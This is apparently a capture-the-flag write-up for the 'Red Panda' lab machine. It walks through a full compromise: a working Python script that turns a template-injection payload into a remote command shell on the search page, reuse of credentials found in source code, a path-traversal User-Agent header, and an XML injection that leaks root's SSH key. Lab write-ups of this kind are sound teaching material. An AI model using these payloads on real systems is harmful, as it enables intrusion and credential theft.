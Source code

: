 ```yaml
---
title: Red Panda (Easy)
author: Carlos
date: 2023-02-10
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/writeimgs/redpanda/pandaicon.png/"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/writeimgs/redpanda/red2.png/">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/writeimgs/redpanda/red3.png/">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/writeimgs/redpanda/red4.png/">

However, we can use * which works in the same way.

<img src= "/writeimgs/redpanda/red5.png/">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/writeimgs/redpanda/red6.png/">
<p>
<img src= "/writeimgs/redpanda/red7.png/">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/writeimgs/redpanda/red8.png/">

We can use these credentials to connect via ssh:

<img src= "/writeimgs/redpanda/red9.png/">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/writeimgs/redpanda/red10.png/">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/writeimgs/redpanda/red11.png/">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/writeimgs/redpanda/red12.png/">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/writeimgs/redpanda/red13.png/">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/writeimgs/redpanda/red14.png/">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/writeimgs/redpanda/red15.png/">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<p> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg" </p>

<img src= "/writeimgs/redpanda/red16.png/">

Finally we will export the xml from /stats to take our file.

<img src= "/writeimgs/redpanda/red17.png/">
<p> </p>
<img src= "/writeimgs/redpanda/red18.png/">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/writeimgs/redpanda/red19.png/">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/writeimgs/redpanda/red20.png/">
